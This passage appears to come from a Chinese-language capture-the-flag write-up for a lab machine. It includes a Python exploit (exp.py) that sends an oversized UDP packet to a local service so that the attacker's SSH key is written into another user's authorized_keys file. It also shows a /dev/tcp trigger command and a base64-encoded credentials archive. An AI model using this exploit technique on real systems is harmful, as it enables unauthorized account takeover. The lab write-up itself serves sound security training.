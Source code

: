 ![image-20240807171042507](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807171042507.png)

Aa4A的起始地址是12

生成ssh公钥

![image-20240807171510203](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807171510203.png)

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPKRM+oshzzdnz6WNSBB4pbidJiaAlJRWhyckTf8zi/ root@kali
```

![image-20240807171523812](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807171523812.png)

exp.py

```
import socket

server_address = ('::1',6666)
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
s.connect(server_address)

data = bytearray(b'\n'*65403)

key = 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPKRM+oshzzdnz6WNSBB4pbidJiaAlJRWhyckTf8zi/ root@kali'

replace = b"/home/alex/.ssh/authorized_keys"

sendData = data[:65372] + replace
sendData[12:12+len(key)] = key.encode()

s.send(sendData)
```

```
morty@magicgardens:~$ echo "harvest v1.0.3" > /dev/tcp/127.0.0.1/1337
morty@magicgardens:~$ python3 exp.py
```

登录

![image-20240807172539291](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807172539291.png)

查找alex用户文件发现一封邮件，里面是root向alex发来的一个auth.zip![image-20240807172740522](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807172740522.png)

内容经过base64加密

```
UEsDBAoACQAAAG6osFh0pjiyVAAAAEgAAAAIABwAaHRwYXNzd2RVVAkAA29KRmbOSkZmdXgLAAEE
6AMAAAToAwAAVb+x1HWvt0ZpJDnunJUUZcvJr8530ikv39GM1hxULcFJfTLLNXgEW2TdUU3uZ44S
q4L6Zcc7HmUA041ijjidMG9iSe0M/y1tf2zjMVg6Dbc1ASfJUEsHCHSmOLJUAAAASAAAAFBLAQIe
AwoACQAAAG6osFh0pjiyVAAAAEgAAAAIABgAAAAAAAEAAACkgQAAAABodHBhc3N3ZFVUBQADb0pG
ZnV4CwABBOgDAAAE6AMAAFBLBQYAAAAAAQABAE4AAACmAAAAAAA=
```
